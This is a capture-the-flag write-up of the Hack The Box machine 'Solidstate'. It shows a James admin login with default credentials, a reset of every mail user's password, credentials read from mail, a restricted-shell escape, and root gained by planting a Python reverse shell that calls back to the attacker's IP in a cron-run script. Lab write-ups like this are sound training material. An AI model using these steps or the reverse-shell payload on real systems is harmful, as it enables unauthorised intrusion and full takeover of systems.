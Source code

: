 ```yaml
---
title: "Solidstate"
description: "Writeup for Solidstate machine from HTB"
date: 2020-08-10
author: "Pablo Jesús González Rubio"
cover: "solidstate.png"
coverAlt: "Solidstate icon"
toc: true
tags: [ "Writeup" ]
---
```


## Scanning

Hosts: `10.10.10.51 solidstate.htb`

Nmap output:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello solidstate.htb (10.10.14.36 [10.10.14.36]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Trying a `telnet solidstate.htb 4555`, as 4555 is the oddest port:

{{<img "james.png" >}}

James Administration Tool has default passwords `root`:`root` and it let us in (here the importance of changing default passwords).

Using `HELP` to list available commands:

```
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

I execute `listusers` command:

```
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Resetting the passwords to have easy access for later:

```
$ setpassword james james
Password for james reset
$ setpassword thomas thomas
Password for thomas reset
$ setpassword john john
Password for john reset
$ setpassword mindy mindy
Password for mindy reset
$ setpassword mailadmin mailadmin
Password for mailadmin reset
```

I then begin listing mails from within the [POP3 port (110)](https://pablogonzalez.me/posts/port_cheatsheet/#110---pop3) with:

```
telnet solidstate.htb 110
# USER james
# PASS james
# LIST
# RETR 1
# QUIT
# ...
```

Nothing on James nor Thomas.

On John:

{{<img "john.png" >}}

It says Mindy has a temporary password, let's investigate his emails.

Mindy's 1º email:

{{<img "1email.png" >}}

Mindy's 2º email:

{{<img "2email.png" >}}

So we got credentials:

```
username: mindy
pass: P@55W0rd1!2@
```

Et voilá!

{{<img "ssh.png" >}}

## Privilege Escalation

### Root

When I try to `cd` to other directories it doesn't let us, it's a restricted shell. To bypass this we quit the ssh session and run the ssh again with the command `bash` like this:

```
ssh mindy@solidstate.htb bash
```

And then the [TTY procedure](https://pablogonzalez.me/posts/pentest_cheatsheet/#tty).

I [uploaded](/posts/data_exfiltration) `linenum` but didn't find anything interesting, so I continued and uploaded `pspy` to check crons and this appears:

{{<img "crons.png" >}}

So `root` is running a python script and I have full access to the file:

{{<img "tmp.png" >}}

So the idea is to put a reverse shell inside the script and when the cron runs again, we'll have a connection.

My reverse is:

```python
#!/usr/bin/env python
import socket,subprocess,os
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.36",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

Listening with `nc -lnvp 4444` and... got `root` access!

{{<img "root.png" >}}
